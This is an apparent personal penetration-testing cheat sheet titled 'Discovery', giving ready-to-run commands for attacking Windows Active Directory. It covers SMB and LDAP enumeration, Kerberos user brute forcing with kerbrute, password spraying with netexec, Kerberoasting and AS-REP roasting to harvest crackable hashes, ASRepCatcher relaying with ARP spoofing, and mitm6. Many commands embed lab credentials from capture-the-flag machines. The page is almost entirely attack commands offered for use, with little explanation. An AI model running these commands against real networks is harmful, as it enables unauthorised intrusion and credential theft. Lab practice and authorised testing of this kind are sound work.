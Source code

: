 ```yaml
---
title: "Discovery"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## No Credentials:

- **Nmap** :
```shell
nmap -Pn -sC -sV $t 
nmap -Pn -sC -sV -p- $t #full
```
`Rustcan` 

```shell
sudo nmap -sU -sC -sV $t
```

- **SMB  :** 
```shell
nmap -Pn --script "smb-vuln*" -p139,445 $t #search smb vuln
```

```shell
netexec smb 10.10.65.99 -u "Guest" -p "" --shares

netexec smb 10.10.65.99 -u user.txt -p user.txt --no-bruteforce --continue-on-success

nxc smb $t -u UserNAme -p 'PASSWORDHERE' --rid-brute

proxychains -q nxc smb 10.10.231.69 -u SVC_WEB_STAGING -d REFLECTION -p "" --rid-brute | grep '\\' | cut -d $'\\' -f2 | cut -d ' ' -f1 | tee -a users_rid.txt

```

- Same:
```sh
lookupsid.py sendai.vl/Guest@$t
```

- **LDAP Search:**
```sh
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

```sh
ldapsearch -x -b "dc=baby2,dc=vl" -H ldap://10.10.119.153 '(ObjectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
```

```sh
ldapsearch -x -b "dc=baby2,dc=vl" -H ldap://10.10.119.153 | grep -i -a 'Service Accounts'
```

- **RPCClient :**

```sh
rpcclient -U=" " -N <dc-ip>
```

- **Kerbrute :**
```sh
kerbrute userenum --dc 10.10.11.129 -d search.htb /usr/share/wordlists/seclists/

kerbrute bruteuser --domain baby2.vl --dc $t /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt gpoadm -v

#Bruteforce
```

- **Enum4Linux :**
```sh
enum4linux-ng -A iP
```

**Windapsearch :**
```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -U | tee windapsearch-enumeration-users
```

## With Credentials:

- **SMB  :**
```sh
smbclient //10.10.196.22/SYSVOL -U library
smbclient \\\\$t\\SYSVOL -U baby2/library
smbclient.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

```sh
netexec smb $t2 -u 'rsmith' -p 'IHateEric2' --shares
netexec smb $t -u users.txt -p "" --no-bruteforce --continue-on-success
#Null credential can reveal interesting path
```

```sh
samrdump.py <domain>/<username>:<password>@<target_IP>
```

```sh
smbmap -H IP -d <domainname> -u <username> -p <password>
```

- On windows :
```sh
net view \\dc01 /all
```

- **LDAP Search:**

```sh
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```sh
ldapsearch -H ldap://search.htb -x -D 'username@search.htb' -w "passwords" -b "DC=search,DC=htb" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F":" '{print $2}'
```

```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
nxc ldap $t -k -u users.txt -p 'Cicada123' --kdcHost DC-JPQ225.cicada.vl
```

- **Bloodhound :**
```sh
bloodhound-python -d 'LAB.TRUSTED.VL' -u 'rsmith' -p 'IHateEric2' -ns 10.10.245.166 -dc labdc.LAB.TRUSTED.VL -c all
nxc ldap 10.10.202.37 -u Rhys.Garner -p knh1gJ8Xmeq+uP --bloodhound --collection All -ns 10.10.202.37
```
OR
```sh
./SharpHound.exe --CollectionMethods All
Invoke-BloodHound -CollectionMethod All
```

- **RPCClient :**
```sh
rpcclient -U="username" <dc-ip>
```

**Enum4Linux :**
```sh
enum4linux -u username -p password -A <IP>
enum4linux -u username -p password -U <IP>
```

**GetADUsers.py :**
```sh
GetADUsers.py -all pentesting.local/ippsec:Password12345 -dc-ip 192.168.10.50
```

**Kerberoasting:**

```sh
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t -request
```

```sh
findDelegation.py -dc-ip 192.168.1.50 pentesting.local/ippsec:Password12345
```

**Windapsearch :**
```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" -U | tee winapsearch-authenticated-enumerations
```

```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" -G | tee winapsearch-authentication-group-enumerations
```

```sh 
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" --unconstrained-computers | tee unconstrained-computers-enumeration
```

**Ldapdomaindump:**
```sh
ldapdomaindump --user "delegate.vl"\\"N.Thompson" --password "KALEB_2341" --outdir ldapdomaindump "DC1.delegate.vl"
```

## Only Username
- Impacket :
```sh
GetNPUsers.py bruno.vl/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```

```sh
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

- Netexec : 
```sh
netexec smb $t -u users.txt -p "" --no-bruteforce --continue-on-success
```

- Discover windows : 
```sh
RunFinger.py -i 10.10.120.0/24
```

- Discover machine
```sh
mitm6 --interface "eth0"
```

- Read Users descriptions :
```sh
nxc smb 192.168.250.170 -u 'joker' -p '<3batman0893' --users
```

- Discovering Pre-Created-computers : 
```sh
pre2k auth -u Bank -p 'Password' -d lan.vl -dc-ip 10.10.10.10 -verbose
```
`Must check with your own script `